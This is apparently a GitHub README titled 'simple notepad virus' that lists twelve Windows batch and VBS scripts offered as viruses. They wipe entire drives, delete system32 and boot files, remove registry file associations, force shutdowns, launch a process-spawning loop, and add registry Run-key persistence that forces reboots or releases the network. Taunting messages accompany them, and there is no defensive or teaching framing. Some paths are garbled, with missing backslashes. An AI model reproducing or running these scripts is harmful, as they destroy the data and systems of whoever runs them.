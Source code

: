 # ViRuS
simple notepad virus


# codes given below

# virus - 1

@echo off
:VIRUS
cd /d C:
md %RANDOM%
cd /d D:
md %RANDOM%
cd /d E:
md %RANDOM%
goto VIRUS
REM #######################
REM errorcode401.blogspot.in


-----------------------------------
# virus - 2

@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q


-------------------------
# virus - 3

@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*


--------------------------
# virus - 4

@Echo off
Ipconfig /release

-------------------------
# virus - 5

@echo off
msg * Lets Roll Baby
shutdown -c “Error! Your ass got glued!” -s

-----------------------------
# virus - 6

(save as .VBS)

Option Explicit

Dim WSHShell
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)

Dim x
For x = 1 to 100000000
WSHShell.Run “Tourstart.exe”
Next

--------------------------------------------------------------------
# virus - 7
rd/s/q D:\
rd/s/q C:\
rd/s/q E:\

----------------------------------------------------------------

# virus - 8

echo @echo off>c:windowshartlell.bat
echo break off>>c:windowshartlell.bat
echo shutdown -r -t 11 -f>>c:windowshartlell.bat
echo end>>c:windowshartlell.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v startAPI /t reg_sz /d c:windowshartlell.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v /t reg_sz /d c:windowshartlell.bat /f
echo You Are Nailed, Buy A New Computer This Is Piece Of Shit.
PAUSE

-----------------------------------------------------------------------------

# virus - 9

@echo off
attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini

--------------------------------------------------------------
# virus - 10

shutdown -s -t 100 c “Installing Updates”

--------------------------------------------------------------------
# virus - 11

del c:\WINDOWS\system32\*.*/q

--------------------------------
# virus - 12

echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You have maxed your internet usage for a lifetime ??
PAUSE



@thank you
